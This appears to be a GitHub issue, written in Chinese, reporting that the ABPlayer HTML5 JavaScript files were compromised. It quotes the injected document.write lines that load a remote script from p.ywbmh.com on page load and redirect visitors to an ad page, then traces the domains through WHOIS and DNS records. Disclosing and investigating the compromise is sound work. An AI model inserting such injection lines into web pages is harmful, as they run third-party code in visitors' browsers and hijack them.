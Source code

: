title

-----

表现： 
1. 点击链接
2. 被跳转到http://lishi.quzhao.com/js/tui/tui.html

正文：
1. “审查元素”: Screenshot.png
````
<script language="javascript" src="http://p.ywbmh.com:7777/pt/pt.php?src=p0007&amp;t=New%20Interface%20Test%20for%20ABPlayer&amp;ci=3029317831"></script>
````

2. “来源”: Screenshot001.png Screenshot002.png
被感染的代码
````
document.write("<script language='javascript' src='http://zhuogu.github.io/ABPlayerHTML5-bilibili-ver/build/js/ABPLibxml.js?_vv=20080808'></script>");
document.write("<script language='javascript' src='http://p.ywbmh.com:7777/pt/pt.php?src=p0007&t=" + encodeURIComponent(document.title) + "&ci=3029317831'></script>");
````
被感染的文件 ABPLibxml.js ABPMobile.js

3. 追查p.ywbmh.com
tp.php的内容
````
document.write("<script language='javascript' src='http://mystatic.le4le.com/pt/ad/bc_286_pop.js'></script>");
````
ywbmh.com的whois
[file]
p.ywbmh.com的dns
````
A	171.111.153.3
A	171.111.153.2
````

4. 追查le4le.com
whois
[file]
mystatic.le4le.com img.le4le.com的dns
````
A	106.184.7.46
A	106.187.97.70
````

5. 追查lishi.quzhao.com
whois
[file]
dns
````A	111.177.111.83```` 
